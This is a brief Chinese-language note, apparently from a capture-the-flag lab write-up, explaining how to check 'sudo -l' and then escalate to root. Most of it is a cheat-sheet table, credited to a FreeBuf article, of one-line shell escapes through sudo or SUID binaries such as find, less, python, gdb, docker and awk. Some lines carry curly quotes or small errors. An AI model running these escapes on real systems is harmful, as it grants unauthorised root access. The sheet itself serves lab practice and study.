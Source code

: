 一般流程就是

```
sudo -l
```

查看当前用户能够以root权限运行的命令，这个靶机只有find命令可以以root权限运行所以只能这样了



大纲，来源：https://www.freebuf.com/articles/system/362070.html

```
命令	      利用方法
zsh	        zsh
xargs	      xargs -a /dev/null sh -p
watch	      watch -x sh -c ‘reset; exec sh -p 1>&0 2>&0’
timeout	    timeout 7d /bin/sh -p
time	      time /bin/sh -p
tclsh	      1、tclsh 2、exec /bin/sh -p <@stdin >@stdout 2>@stderr
taskset	    taskset 1 /bin/sh -p
stdbuf	    stdbuf -i0 /bin/sh -p
strace	    strace -o /dev/null /bin/sh -p
ssh	        ssh -o ProxyCommand=’;sh -p 0<&2 1>&2’ x
setarch	    setarch $(arch) /bin/sh -p
rsync	      rsync -e ‘sh -p -c “sh -p 0<&2 1>&2”’ 127.0.0.1:/dev/null
rpm	        rpm --eval ‘%{lua:os.execute("/bin/sh -p")}’
python	    python -c ‘import os; os.execl("/bin/sh", “sh”, “-p”)’
php	        1、CMD="/bin/sh" 2、 php -r “pcntl_exec(’/bin/sh’, [’-p’]);”
nice	      nice /bin/sh -p
nano	      1、nano //运行nano程序  2、^R //按下ctrl-r 3、^X //按下ctrl-x 4、reset; sh -p 1>&0 2>&0
                             // 输 入下面的命令
more	      1、more /etc/profile  2、!/bin/sh -p
logsave	    logsave /dev/null /bin/sh -i -p
less	      less /etc/profile //读取文件，在底行输入!/bin/sh -p
ksh	        ksh -p
ip	        1、ip netns add foo 2、ip netns exec foo /bin/sh -p 3、ip netns delete foo
ionice	    ionice /bin/sh -p
git	        git help status
gimp	      gimp -idf --batch-interpreter=python-fu-eval -b ‘import os; os.execl("/bin/sh", “sh”,         “-p”)’
gdb	        gdb -nx -ex ‘python import os; os.execl("/bin/sh", “sh”, “-p”)’ -ex quit
ftp	        ftp //在底行输入“!/bin/sh -p”
flock	      flock -u / /bin/sh -p
find	      find . -exec /bin/sh -p ; -quit
expect	    expect -c ‘spawn /bin/sh -p;interact’
env	        env /bin/sh -p
ed	        ed //在底行输入“!/bin/sh -p”
docker	    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
dmesg	      dmesg -H//在底行输入“!/bin/sh -p”
csh	        csh -b
bash	      bash -p
awk	        awk ‘BEGIN {system("/bin/bash -p")}’
perl	      perl exec “/bin/bash”;
```


